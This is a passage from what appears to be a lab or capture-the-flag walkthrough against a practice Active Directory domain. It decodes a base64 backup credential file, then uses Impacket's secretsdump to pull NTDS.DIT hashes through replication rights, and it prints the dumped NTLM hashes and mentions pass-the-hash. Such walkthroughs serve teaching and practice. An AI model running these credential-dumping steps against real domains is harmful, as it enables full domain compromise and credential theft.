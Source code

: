 ``` bash
smb: \> exit
``` 

### View backup_credentials.txt file

``` bash
$ cat backup_credentials.txt          
                                   
YmFja3VwQHNwb29reXNlYy5XXXXXbDpiYWNrdXAyNTE3ODYw%
``` 

### Decode it with base64. Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to? Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.

``` bash
$ base64 -d backup_credentials.txt             
                                              
backup@spookysec.local:backXXXXX7860
``` 

### Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain. Let's dump the hash.
### DRSUAPI method allows us to dump NTDS.DIT
### Pass The Hash (PTH) method of attack could allow us to authenticate as the user without the password.

```bash
$ python3 secretsdump.py -just-dc backup@spookysec.local      
  
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404XXXXX3b435b51404ee:0e0363213e37bXXXXX497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
```
